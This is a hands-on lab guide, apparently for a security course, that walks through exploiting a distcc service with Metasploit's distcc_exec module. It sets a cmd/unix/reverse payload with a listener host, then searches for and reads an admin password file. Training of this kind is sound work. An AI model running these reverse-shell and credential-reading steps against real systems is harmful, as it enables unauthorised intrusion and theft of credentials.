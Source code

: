 # Privilege Escalation Demo

**Note**: Ensure that you do not miss running any of the commands mentioned in the steps below. If you fail to run any of the commands, the lab validation may fail.

We will first set up a low-privileged shell using Metasploit, which you will then use for post-exploitation and privilege-escalation techniques.

1.  Open the Hyper-V Manager in your **LabVM** and right click on **Kali virtual machine** then click on **Connect** to connect to your **Kali virtual machine**.

    ![](./images/selecthyperv.png)

    ![](./images/kali.png)

    login to the Kali VM using username **root** and password **kali**.

2. On the Desktop of Kali VM, right click and choose **Open Terminal here**.

    ![](./images/terminal.png)

3. In the terminal enter **msfconsole** to launch msfconsole.

    ![](./images/msfconsole.png)

4. search for **distcc** using command **search distcc**.

    ![](./images/searchdistcc.png)

5. select the module using command **use exploit/unix/misc/distcc_exec**.

    ![](./images/use.png)

6. set the remote host using command **set RHOSTS 172.22.117.150**.

    ![](./images/Rhosts-1.png)

7. Before running the module, we need to set a payload. List the available payloads using command **show payloads**.

    ![](./images/showpay.png)

8. Select the reverse payload. Be sure NOT to select reverse_bash, or the exploit will not work using command **set PAYLOAD cmd/unix/reverse**.

    ![](./images/reverse.png)

9. Host that listens for the payload communication. In this case, our LHOST is the machine that we're currently operating on. 

    Run command **set LHOST 172.22.117.100**

    ![](./images/lhost.png)

10. Run the module.

    ![](./images/exploit1.png)

11. Use the `find` command (`find / -type f -iname "*admin*.txt"`), as the following image shows:

    ![](./images/find.png)

12. Run the commnd **cat /var/tmp/adminpassword.txt** to get the admin username and password.
    
14. Ensure to validate the exercise by navigating to the **Lab Valiadtion** Tab.

    ![](./images/cat.png)

15. click on **ctrl + c** and then enter command **exit** from msfconsole.

    ![](./images/exit.png)
